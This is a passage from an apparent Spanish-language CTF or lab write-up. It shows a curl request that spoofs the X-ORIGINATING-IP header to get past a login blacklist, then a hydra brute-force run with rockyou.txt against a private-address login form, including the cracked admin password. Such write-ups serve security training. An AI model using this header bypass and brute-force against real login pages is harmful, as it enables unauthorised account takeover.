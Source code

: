 ## Explotación

Para intentar evadir este bloqueo, intento, mediante **curl** el uso del header **X-ORIGINATING-IP** para cambiar la IP de origen y que así en la blacklist no aparezca realmente la IP de mi máquina. Utilizo la `127.0.0.1` porque suele estar permitida por el servidor ya que es una IP interna.

```bash
❯ curl 'http://192.168.18.94/login.php/' -X POST -d 'username=admin&password=admin' -H 'X-ORIGINATING-IP: 127.0.0.1'

<!DOCTYPE html>
<html>
  <head>
    <title>Sign In</title>
    <meta charset="UTF-8">
    <link rel="stylesheet" href="login.css">
  </head>
  <body>
    <form class="form" autocomplete="off" method="post">
      <div class="control">
        <h1>Sign In</h1>
...
            <p>Invalid username or password</p>
          </form>
  </body>
</html>
```

Nos deja hacer varias peticiones seguidas por lo que hemos conseguido [bypassear el firewall](https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c) y podremos intentar un ataque de fuerza bruta sin problemas. Para esto utilizaremos la herramienta **hydra**.

Para entender la sintaxis recomiendo leer el siguiente artículo: [How to Brute Force Websites & Online Forms Using Hydra](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/)

```bash
❯ hydra -l "admin" -P "/usr/share/seclists/rockyou.txt" 192.168.18.94 http-post-form "/login.php:username=admin&password=^PASS^:H=X-ORIGINATING-IP: 127.0.0.1:F=Invalid username"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-19 14:49:27
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://192.168.18.94:80/login.php:username=admin&password=^PASS^:H=X-ORIGINATING-IP: 127.0.0.1:F=Invalid username
[STATUS] 4425.00 tries/min, 4425 tries in 00:01h, 14339973 to do in 54:01h, 16 active
[80][http-post-form] host: 192.168.18.94   login: admin   password: solitario
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-19 14:50:50
```
